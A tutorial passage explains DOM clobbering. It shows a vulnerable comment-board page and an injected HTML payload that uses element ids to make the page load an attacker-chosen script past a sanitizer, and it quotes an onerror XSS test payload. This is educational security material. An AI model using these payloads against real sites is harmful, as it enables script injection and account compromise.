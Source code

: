 Understanding this specification leads us to a conclusion:

> We can influence JavaScript through HTML elements.

And this technique can be used for attacks, known as DOM clobbering. I first encountered the term "clobbering" in the context of this attack, and upon further research, I found that it means "overwriting" in the field of computer science. It refers to using the DOM to overwrite certain elements to achieve an attack.

## Introduction to DOM Clobbering

Under what circumstances can we use DOM clobbering for attacks?

Firstly, there must be an opportunity to display your custom HTML on the page; otherwise, it won't be possible.

So, a potential attack scenario might look like this:

``` html
<!DOCTYPE html>
<html>
<body>
  <h1>Comments</h1>
  <div>
    You comment: hello
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```

Let's say there is a comment board where you can enter any content. However, the input undergoes sanitization on the server-side, removing anything that can execute JavaScript. Therefore, `<script></script>` gets removed, and the `onerror` attribute of `<img src=x onerror=alert(1)>` is stripped off. Many XSS payloads won't pass through.

In short, you cannot execute JavaScript to achieve XSS because all such attempts are filtered out.

However, due to various factors, HTML tags are not filtered out, so you can display custom HTML. As long as JavaScript is not executed, you can insert any HTML tag and set any attribute.

So, you can do the following:

``` html
<!DOCTYPE html>
<html>
<body>
  <h1>Comments</h1>
  <div>
    Your comment: <div id="TEST_MODE"></div>
    <a id="TEST_SCRIPT_SRC" href="my_evil_script"></a>
  </div> 
  <script>
    if (window.TEST_MODE) {
      // load test script
      var script = document.createElement('script')
      script.src = window.TEST_SCRIPT_SRC
      document.body.appendChild(script)
    }
  </script>
</body>
</html>
```
